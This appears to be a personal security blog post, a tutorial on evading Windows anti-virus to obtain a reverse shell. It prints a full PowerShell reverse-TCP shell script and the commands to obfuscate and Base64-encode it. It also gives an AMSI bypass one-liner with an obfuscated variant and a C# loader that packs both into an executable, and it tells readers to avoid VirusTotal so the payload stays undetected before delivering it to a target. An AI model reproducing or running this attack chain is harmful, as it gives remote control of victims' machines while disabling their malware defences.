




Basic Anti-Virus Evasion
Overview¶
After I obtained eCPTX certificate and completed Offshore lab from Hack The Box I learned multiple ways to bypass Anti-Virus solutions. Offshore was containing multiple machines with AV, additionally, we faced deferent Anti-Virus solution with clients. So dealt with multiple scenarios to bypass the AV. Bypassing AV can be easy just by playing with the payload or it can be complicated, depending the AV solution and how it detect the malware (signature based, behavior based, etc...). In this blog, I'll demonstrate simple method to bypass Anti-Virus to obtain reverse shell using PowerShell script.
An overview of the steps that I'll follow:
- Using
Reverse-TCPPowerShell script. - Obfuscate the
Reverse-TCPPowerShell script . - Base64 encoding the obfuscated
Reverse-TCPPowerShell script. - Using AMSI bypass script.
- Coverting the encoded script & AMSI bypass script into executable file.
- Delivering the Payload.
Theory¶
I'll explain here some of basic concepts of AMSI, how Anti-Virus products detect the malware and etc. So if you know the concepts you can skip this part.
-
AMSI:
AMSI stands for Anti Malware Scan Interface. AMSI is an interface for applications and services to integrate with antimalware products. AMSI used for scanning files and memory streams, content source, URL/IP reputation checks and other techniques.
-
Detection Methods in Anti-Virus:
- Signature Based: by matching strings, signatures, hashes and patterns of known malware from the database.
- Heuristic Based: it is similar to signature based detection in terms of searching for specific strings, it looks for commands that has malicious intent and would not be mostly found in an application.
- Behavioral Based: it looks for events created by the program. As an example, spawinng
cmd.exeor calling a sequence of functions that indicate potential process injection. - Sandbox Detection: In this type of detection, the program runs in virtualized environment and it is behavior is recorded, at the end all program behavior will analyzed. The anti-virus application will be able to see in details what the program will do in that environment.
Steps¶
Download Reverse Shell PS Script¶
Use the following PowerShell script, change listening IP and the port: reverse-tcp.ps1
$client = $null;
$stream = $null;
$buffer = $null;
$writer = $null;
$data = $null;
$result = $null;
try {
$client = New-Object Net.Sockets.TcpClient("127.0.0.1", 9000);
$stream = $client.GetStream();
$buffer = New-Object Byte[] 1024;
$encoding = New-Object Text.AsciiEncoding;
$writer = New-Object IO.StreamWriter($stream);
$writer.AutoFlush = $true;
$bytes = 0;
do {
$writer.Write("PS>");
do {
$bytes = $stream.Read($buffer, 0, $buffer.Length);
if ($bytes -gt 0) {
$data = $data + $encoding.GetString($buffer, 0, $bytes);
}
} while ($stream.DataAvailable);
if ($bytes -gt 0) {
$data = $data.Trim();
if ($data.Length -gt 0) {
try {
$result = Invoke-Expression -Command $data 2>&1 | Out-String;
} catch {
$result = $_.Exception | Out-String;
}
Clear-Variable -Name "data";
$length = $result.Length;
if ($length -gt 0) {
$count = 0;
do {
if ($length -ge $buffer.Length) { $bytes = $buffer.Length; } else { $bytes = $length; }
$writer.Write($result.substring($count, $bytes));
$count += $bytes;
$length -= $bytes;
} while ($length -gt 0);
Clear-Variable -Name "result";
}
}
}
} while ($bytes -gt 0);
} catch {
Write-Host $_.Exception.InnerException.Message;
} finally {
if ($writer -ne $null) {
$writer.Close();
$writer.Dispose();
Clear-Variable -Name "writer";
}
if ($stream -ne $null) {
$stream.Close();
$stream.Dispose();
Clear-Variable -Name "stream";
}
if ($client -ne $null) {
$client.Close();
$client.Dispose();
Clear-Variable -Name "client";
}
if ($buffer -ne $null) {
$buffer.Clear();
Clear-Variable -Name "buffer";
}
if ($result -ne $null) {
Clear-Variable -Name "result";
}
if ($data -ne $null) {
Clear-Variable -Name "data";
}
[System.GC]::Collect();
}
Download Invoke-Obfuscator¶
Download Invoke-Obfuscator from the following Github repository.
Obfuscate the Reverse Shell PS Script¶
In Windows host, run:
powershell -exec bypass
Import-Module .\Invoke-Obfuscation.psd1
Invoke-Obfuscation
After running Invoke-Obfuscation run:
Invoke-Obfuscation> set scriptpath <name of reverse tcp script>.ps1
Invoke-Obfuscation> string
Invoke-Obfuscation\String> 1
The above script will obfuscate all strings in reverse-tcp.ps1 script. Now, copy the result into file. I'll name it as obf-reverse.ps1, or type out in Invoke-Obfuscation to write the results into a file.
Obfuscate the Obfuscated Script¶
Run PowerShell ISE and install steroids. Link: https://powershell.one/isesteroids/quickstart/install-manually
Tip
Install it manually by downloading the compressed ZIP file. In order to avoid any errors in installation part.
After installing steroids tool, open PowerShell ISE and run the following command:
start-steroids
PS script and paste the obfuscated powershell script. In Tools menu, select Obfuscate Code and choose Binary mode.

Encode the Obfuscated PS Script¶
Now encode the last obfuscated PowerShell script into Base64.
PS > $file="<obfuscated ps script>"
PS > $fc=get-content $file
PS > $byt=[System.Text.Encoding]::UTF8.GetBytes($fc)
PS > $encodedtext=[System.Convert]::ToBase64String($byt)
PS > echo $encodedtext
Bypass AMSI¶
Now let's move on the AMSI part,we need first to bypass the AMSI then we can run our reverse shell script. Again we will use here PowerShell ISE to obfuscate the script.
Get any AMSI bypass method from the following link: https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell
Example:
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
PowerShell ISE create a new PS script and paste the AMSI bypass link. In Tools menu, select Obfuscate Code and choose Character mode.
Example of the generated obfuscated script:
[Ref].Assembly.GetType($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('UwB5AHMAdABlAG0ALgBNAGEAbgBhAGcAZQBtAGUAbgB0AC4AQQB1AHQAbwBtAGEAdABpAG8AbgAuAEEAbQBzAGkAVQB0AGkAbABzAA==')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('TgBvAG4AUAB1AGIAbABpAGMALABTAHQAYQB0AGkAYwA=')))).SetValue($null,$true)
Save the generated script into the local machine. Example as amsi.txt.
Memes Break  ¶
¶
Before we continue, let's have a short memes break:

Now move on to build our executable binary and deliver it into the target.
Building the Executable File¶
Now we have two scripts: amsi.txt and obf-tcp.ps1, we will combine both those scripts and convert them into executable binary using C Sharp with the help Visual Studio.
Let's run Visual Studio now and create new C Sharp project. First of all, we have to enable the System.Management.Automation library in order to run PowerShell commands.
Go to: Project - Add Reference, add the library System Management Automation by browsing into the following path:
C:\Windows\assembly\GAC_MSIL\System.Management.Automation\*\System.Management.Automation.dll

Syntax to run PowerShell commands can be found from the following link.
Use the following CS program and paste your AMSI bypass and reverse shell scripts in bypassamsi and psrun parameters.
using System;
using System.Collections.Generic;
using System.Linq;
using System.Management.Automation;
using System.Text;
using System.Threading.Tasks;
namespace powerreverse
{
class Program
{
static void Main(string[] args)
{
PowerShell ps = PowerShell.Create();
string bypassamsi = "";
string psrun= "";
ps.AddScript(bypassamsi);
ps.AddScript(psrun);
ps.Invoke();
}
}
}
Delivering The Payload¶
WARINING
By uploading the malware into Virus Total, it will send the signature of the malware to Anti-Virus products, the generated payload can't be used again because it will be detected. Preferably, upload the executable file into https://antiscan.me/

Now you can deliver the payload in the target host to obtain clean reverse shell.

References¶
Amsi Bypass Powershell
Invoke-Obfuscation
System Management Automation
Steroids